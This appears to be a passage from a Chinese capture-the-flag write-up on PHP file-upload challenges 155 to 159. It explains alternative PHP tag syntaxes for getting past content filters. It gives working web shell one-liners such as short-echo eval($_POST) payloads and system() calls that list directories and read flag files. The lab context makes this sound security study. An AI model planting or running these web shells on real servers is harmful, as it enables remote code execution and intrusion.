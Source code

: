 不需要开启参数设置

**3、**

```php
<% echo '123';%>
```

前提是开启配置参数asp_tags=on，**经过测试发现7.0及以上修改完之后也不能使用，而是报500错误，但是7.0以下版本在修改完配置后就可以使用了。**
 **4、**

```php
<script language=”php”>echo '123'; </script>
1
```

不需要修改参数开关，但是只能在7.0以下可用。
 对于该题，我们可用使用`<?=(表达式)?>`进行绕过，图片内容 `<?=eval($_POST[1]);?>`

## 155 文件内容过滤php

测试正常的 png 图片可以上传。

对图片内容过滤`php`

大小写不能绕过了

绕过 `<?=eval($_POST['a']);`

## 156过滤 php, [

测试，又是文件内容过滤了 `php`.

紧接着发现事情没这么简单，还过滤了`[`，这给传参造成了一定的困难。

但是我们可以直接

```
<?=system('cat ../flag.???');

<?=eval($_POST{'a'});    # 用 {} 代替   []
```

## 157-158过滤; php [] {}

eval用不了了

直接

```php
<?=system('ls ../')?>
<?=system('cat ../*')?>
```

## 159 又过滤()

无法使用函数,使用``
